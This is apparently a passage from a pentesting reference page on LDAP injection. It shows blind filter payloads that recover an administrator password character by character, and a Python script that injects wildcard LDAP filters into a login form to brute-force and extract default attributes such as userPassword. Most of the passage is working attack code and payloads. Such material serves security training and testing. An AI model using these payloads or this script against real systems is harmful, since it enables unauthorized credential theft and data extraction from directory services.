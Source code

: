 
## Dump data

You can iterate over the ascii letters, digits and symbols:



```
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```





## Scripts



### **Discover valid LDAP fields**

LDAP objects **contains by default several attributes** that could be used to **save information**. You can try to **brute-force all of them to extract that info.** You can find a list of [**default LDAP attributes here**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt).


```python

import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
    value = ""
    finish = False
    while not finish:
        for char in alphabet: #In each possition test each possible printable char
            query = f"*)({attribute}={value}{char}*"
            data = {'login':query, 'password':'bla'}
            r = requests.post(url, data=data, proxies=proxy)
            sys.stdout.write(f"\r{attribute}: {value}{char}")
            #sleep(0.5) #Avoid brute-force bans
            if "Cannot login" in r.text:
                value += str(char)
                break

            if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
                finish = True
                print()
```
